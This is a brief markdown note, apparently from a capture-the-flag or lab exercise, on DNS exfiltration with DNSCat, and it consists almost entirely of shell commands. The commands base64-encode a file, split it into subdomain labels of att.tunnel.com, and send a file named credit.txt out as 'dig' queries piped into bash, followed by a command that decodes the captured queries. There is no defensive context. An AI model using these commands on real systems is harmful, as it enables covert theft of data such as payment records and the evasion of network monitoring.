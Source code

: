 
use DNSCat

Split queries (use fold -w X, with X + rest of the URL < 255 characters)
```bash
cat exfiltrate.txt | base64 | tr -d "\n"| fold -w 18 | sed -r 's/.*/&.att.tunnel.com/' 
```

Send DNS to victim
```markup
cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
```

Decode DNS request:
```markup
echo "MESSAGE.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```